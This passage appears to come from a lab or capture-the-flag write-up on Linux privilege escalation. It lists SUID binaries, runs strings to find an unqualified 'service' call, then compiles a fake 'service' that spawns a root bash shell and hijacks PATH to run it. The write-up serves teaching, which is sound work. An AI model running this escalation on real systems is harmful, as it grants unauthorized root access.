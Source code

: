 
##### Environment Variables
 - Using the find command again, we notice that we can run some odd programs as root that have the SUID bit set:
```bash
find / -type f -perm -04000 -ls 2>/dev/null
```
```text
809081   40 -rwsr-xr-x   1 root     root        37552 Feb 15  2011 /usr/bin/chsh
812578  172 -rwsr-xr-x   2 root     root       168136 Jan  5  2016 /usr/bin/sudo
810173   36 -rwsr-xr-x   1 root     root        32808 Feb 15  2011 /usr/bin/newgrp
812578  172 -rwsr-xr-x   2 root     root       168136 Jan  5  2016 /usr/bin/sudoedit
809080   44 -rwsr-xr-x   1 root     root        43280 Jun 18 13:02 /usr/bin/passwd
809078   64 -rwsr-xr-x   1 root     root        60208 Feb 15  2011 /usr/bin/gpasswd
809077   40 -rwsr-xr-x   1 root     root        39856 Feb 15  2011 /usr/bin/chfn
816078   12 -rwsr-sr-x   1 root     staff        9861 May 14  2017 /usr/local/bin/suid-so
816762    8 -rwsr-sr-x   1 root     staff        6883 May 14  2017 /usr/local/bin/suid-env
816764    8 -rwsr-sr-x   1 root     staff        6899 May 14  2017 /usr/local/bin/suid-env2
```

 - Let's have a look at the `/usr/local/bin/suid-env` binary.
 - Running the program, it doesn't seem to be that useful:
```text
[....] Starting web server: apache2httpd (pid 1490) already running
.ok
```

 - Let's run the strings command on this binary see what we get:
```text
/lib64/ld-linux-x86-64.so.2
5q;Xq
__gmon_start__
libc.so.6
setresgid
setresuid
system
__libc_start_main
GLIBC_2.2.5
fff.
fffff.
l$ L
t$(L
|$0H
service apache2 start
```

 - Okay this is interesting, it's using the service command.
 - We can run the `service` command without a full path because the computer checks the `$PATH` env variable to try and find it.
 - Because of this, we can create our own `service` program that will be executed as `root` and then add the path to it as root.
 - To create the program:
```bash
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0;}' > /tmp/service.c
gcc /tmp/service.c -o /tmp/service
```
 - We now need to add the `/tmp` folder to the start of our `$PATH` env variable so that it finds our malicious `service` program first.
```bash
export PATH=/tmp:$PATH
```
 - We now run the original binary and we are root.
